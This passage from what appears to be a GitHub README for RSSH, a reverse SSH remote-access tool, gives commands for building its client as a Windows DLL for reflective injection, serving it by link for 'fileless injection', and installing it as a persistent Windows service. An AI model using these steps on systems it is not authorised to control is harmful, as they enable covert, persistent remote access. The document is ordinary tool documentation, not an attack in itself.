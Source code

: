 ### Windows DLL Generation 

You can compile the client as a DLL to be loaded with something like [Invoke-ReflectivePEInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1). 
This will need a cross compiler if you are doing this on linux, use `mingw-w64-gcc`. 

```bash
CC=x86_64-w64-mingw32-gcc GOOS=windows RSSH_HOMESERVER=192.168.1.1:2343 make client_dll
```

When the RSSH server has the webserver enabled you can also compile it with the link command: 

```
./server --webserver :3232

# Generate an unnamed link
ssh your.rssh.server.com -p 3232

catcher$ link --name windows_dll --shared-object --goos windows
http://your.rssh.server.com:3232/windows_dll
```

Which is useful when you want to do fileless injection of the rssh client. 

### SSH Subsystem

The SSH ecosystem allowsy out define and call subsystems with the `-s` flag. In RSSH this is repurposed to provide special commands for platforms. 


#### All
`list`  Lists avaiable subsystem  
`sftp`: Runs the sftp handler to transfer files  

#### Linux
`setgid`:   Attempt to change group  
`setuid`:   Attempt to change user  

#### Windows
`service`: Installs or removes the rssh binary as a windows service, requires administrative rights  


e.g

```
# Install the rssh binary as a service (windows only)
ssh -J your.rssh.server.com:3232 test-pc.user.test-pc -s service --install
```

### Windows Service Integration

The client RSSH binary supports being run within a windows service and wont time out after 10 seconds. This is great for creating persistent management services. 



### Full Windows Shell Support
